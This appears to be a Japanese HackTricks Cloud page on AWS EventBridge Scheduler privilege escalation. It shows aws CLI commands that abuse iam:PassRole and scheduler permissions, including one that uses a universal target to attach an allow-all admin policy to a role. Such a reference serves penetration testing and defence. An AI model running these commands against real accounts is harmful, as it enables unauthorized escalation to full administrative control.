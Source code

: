 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Schedulerの詳細情報：

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

これらの権限を持つ攻撃者は、**`create`|`update`スケジューラを作成し、それに付随するスケジューラロールの権限を悪用して任意のアクションを実行することができます。**

例えば、彼らはスケジュールを設定して**Lambda関数を呼び出す**ことができ、これはテンプレート化されたアクションです：
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
テンプレート化されたサービスアクションに加えて、EventBridge Schedulerでは**universal targets**を使用して、多くのAWSサービスの幅広いAPI操作を呼び出すことができます。Universal targetsは、ほぼすべてのAPIを呼び出す柔軟性を提供します。1つの例は、**putRolePolicy**ポリシーを持つロールを使用して、**AdminAccessPolicy**を追加するためにuniversal targetsを使用することです。
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## 参考文献

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
